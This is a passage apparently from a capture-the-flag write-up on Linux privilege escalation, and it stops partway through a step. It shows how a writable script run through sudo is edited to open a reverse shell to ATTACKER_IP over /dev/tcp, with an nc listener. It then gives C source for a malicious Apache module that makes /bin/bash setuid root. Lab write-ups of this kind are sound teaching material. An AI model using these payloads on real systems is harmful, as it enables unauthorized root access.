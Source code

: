 Next: Check sudo:

```bash
sudo -l
```

Output:

```plaintext
(jamil) may run (mark) NOPASSWD: /opt/scripts/utilities/utilities.py
```

Looking inside, `system-status` calls `utils/status.py`.  
Permissions show `status.py` is writable!

Edit it to spawn a shell:

```python
def system_status():
    import os
    os.system("bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'")
```

Start listener:

```bash
nc -lvnp 4444
```

Execute as mark:

```bash
sudo -u mark /opt/scripts/utilities/utilities.py system-status
```

💥 Shell as **mark**.

---

## 🎬 Act 9 – Summoning Root (Evil Apache Module)

Mark can run:

```plaintext
(ALL) NOPASSWD: /usr/local/bin/safeapache2ctl
```

We craft an evil Apache module(evil.c):

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

__attribute__((constructor)) void init() {
    setuid(0);
    system("chmod +s /bin/bash");
}
```

Write config:
